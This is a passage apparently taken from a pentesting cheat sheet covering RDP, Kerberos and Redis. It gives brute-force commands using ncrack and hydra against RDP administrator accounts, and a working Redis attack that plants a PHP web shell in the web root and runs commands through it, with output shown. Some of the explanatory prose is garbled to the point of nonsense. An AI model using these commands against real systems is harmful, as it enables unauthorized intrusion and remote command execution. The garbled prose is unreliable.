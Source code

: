 ## RDP

Install RDP nmap scripts

```
https://fadedlab.wordpress.com/2019/06/13/using-nmap-to-extract-windows-info-from-rdp/amp/
```

```
nmap -p 3389 --script rdp-ntlm-info $ip
```

#### Bruteforce

```
ncrack -vv --user administrator -P password-file.txt rdp://$ip
```

```
hydra -t 4  -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

## Kerberos

Test MS14-068

## Redis

### Shell

First, the web server on the server broadcasts, including a simple PHP code and create a back door, which will help us to execute commands on the server.

```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
CONFIG GET dbfilename

1) "dbfilename"
2) "shell.php"

SET cmd "<?php system($_GET['cmd']); ?>"
OK
BGSAVE
```

which can be accessed using

```
http://$ip/shell.php?cmd=whoami
www-data
```

### Upload SSH key

Second, file type found in the users home directory because it is our right and remote SSH access with a key instead of using the password used to connect to create key, they may be directly un-encrypted user rights that provide access to the system.
